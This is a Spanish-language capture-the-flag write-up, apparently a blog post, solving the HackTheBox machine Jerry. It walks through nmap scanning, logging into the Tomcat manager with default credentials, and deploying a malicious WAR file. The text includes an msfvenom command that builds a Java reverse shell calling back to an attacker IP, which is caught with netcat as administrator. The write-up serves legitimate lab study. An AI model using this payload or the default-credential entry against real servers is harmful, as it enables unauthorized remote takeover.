 ```yaml
---
layout: single
title: Máquina Jerry - HackTheBox (OSCP Style)
excerpt: "Resolución de la máquina Jerry, la cual figura en la plataforma con un nivel de dificultad Easy."
date: 2021-09-14
classes: wide
header:
  teaser: /assets/images/jerry-htb/portada.png
  teaser_home_page: true
categories:
  - HTB
  - Blog
tags:
  - Blog
  - Writeup
  - Guía
  - Walkthrough
---
```


+ **Información de la máquina**
	
	![0]

+ Verificamos que tengamos comunicación a la máquina por medio de una traza ICMP. Por el TTL deducimos que es una máquina Windows.

	![1]
	
+ Iniciamos la fase de reconocimiento con un escaneo rápido con ayuda de nmap en busca de puertos TCP abiertos.

	![2]
	
	El único puerto que está abierto es el 8080, característico de Tomcat.
	
+ Si ejecutamos un escaneo en busca de servicios y versiones para los puertos encontrados con ayuda de nmap, veremos que efectivamente, se trata de un servidor Tomcat.

	![3]
	
+ Fuzzeamos con el script **http-enum** de nmap en busca de directorios ocultos en el servidor web.

	![4]
	
	Encontramos los directorios típicos de un Tomcat, por lo que accedemos por medio de un navegador.
	
	![5]
	
+ El directorio **/manager/html** es la ruta para acceder al panel de administración de Tomcat, pero este pide credenciales válidas para acceder a dicho panel.

	![6]
	
	Como no las tenemos, hacemos clic en **Cancelar**.
	
+ Esta última acción genera un error bastante curioso en el sistema, y es que nos muestra una página web donde se nos indica que no tenemos permiso para acceder al recurso solicitado. Pero a la vez, nos muestra las credenciales por defecto que tiene un Tomcat recién instalado:

	```
		Usuario: tomcat
		Password: s3cret
	```
	
	![7]
	
+ Si volvemos a acceder al recurso, proporcionando estas credenciales, veremos que somos capaces de acceder al panel de administración de Tomcat.
	
	![8]
	
	![9]
	
+ Para comprometer un Tomcat, debemos cargar en el sistema un archivo **WAR** malicioso que nos devuelva una reverse shell. Para crear este archivo, nos valemos de msfvenom:

	``msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f war -o shell.war``

	![10]
	
	Este archivo debe ser subido dentro de la sección **"WAR file to deploy"**
	
	![11]
	
+ Una vez hagamos clic en **Deploy**, veremos el nuevo recurso desde el panel principal de Tomcat. Para entablarnos la reverse shell, solo debemos ponernos en escucha con netcat y hacer clic en el recurso.

	![12]

	![13]
	
	Como podemos observar, hemos logrado obtener acceso al sistema, y no solo eso, sino que lo hemos hecho como el usuario administrador del sistema.

+ De hecho, si nos ponemos a enumerar un poco el sistema, veremos que es el único usuario disponible:
	
	![14]
	
+ Dentro de su durectorio de trabajo, veremos una carpeta llamada flags, la cual en su interior contiene un archivo llamado **"2 for the price of 1.txt"**
	
	![15]
	
	![16]

+ Este último archivo contiene en su interior las dos flags, tanto la de user como la de root. ¡Vaya oferta! 2 flags por el precio de 1.

	![17]

[0]:/assets/images/jerry-htb/0.png
[1]:/assets/images/jerry-htb/1.png
[2]:/assets/images/jerry-htb/2.png
[3]:/assets/images/jerry-htb/3.png
[4]:/assets/images/jerry-htb/4.png
[5]:/assets/images/jerry-htb/5.png
[6]:/assets/images/jerry-htb/6.png
[7]:/assets/images/jerry-htb/7.jpg
[8]:/assets/images/jerry-htb/8.png
[9]:/assets/images/jerry-htb/9.png
[10]:/assets/images/jerry-htb/10.png
[11]:/assets/images/jerry-htb/11.png
[12]:/assets/images/jerry-htb/12.jpg
[13]:/assets/images/jerry-htb/13.png
[14]:/assets/images/jerry-htb/14.png
[15]:/assets/images/jerry-htb/15.png
[16]:/assets/images/jerry-htb/16.png
[17]:/assets/images/jerry-htb/17.jpg